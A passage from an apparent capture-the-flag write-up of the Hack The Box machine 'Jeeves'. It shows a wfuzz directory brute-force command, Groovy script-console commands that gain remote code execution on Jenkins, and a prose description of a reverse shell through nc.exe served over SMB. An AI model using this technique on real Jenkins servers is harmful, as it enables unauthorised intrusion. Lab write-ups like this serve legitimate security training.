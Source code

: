```bash
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:5000/FUZZ
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_06.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_07.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

There is a way to perform an **[RCE in Jenkins](https://medium.com/@awezkagdi.ak/remote-code-execution-a-story-of-simple-rce-on-jenkins-instance-4f01ea098269){:target="_blank"}**, because it is accessible from the administration panel, where there is the functionality of a **Script Console**, from which you can declare commands (most likely in **Ruby** language). If I search the internet for **[groovy execute shell command](https://stackoverflow.com/questions/159148/groovy-executing-shell-commands){:target="_blank"}**, I find some examples, and I try to obtain the results of an RCE. Leaving your [Jenkins](https://www.shodan.io/search?query=jenkins){:target="_blank"} management system exposed can be very dangerous, a large number of Jenkins are currently exposed.

```ruby
"ls /".execute().text                   # :(
'ls /'.execute().text                   # :(

println "whoami".execute().text         # :)
println "ipconfig".execute().text       # :)

command = "whoami"
println(command.execute().text)
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_08.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_09.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_10.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_11.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I try to send me a **Reverse Shell**, first I use `impacket-smbserver` to set up a **SMB** server and from there I will share the `nc.exe` binary, so I can access it from the victim machine and run it and send me the **Reverse Shell**, I try different commands until I succeed, I have to escape the `\`.
When accessing the `nc.exe` binary from the victim machine, the **NTML** hash of the user **kohsuke** can be seen.
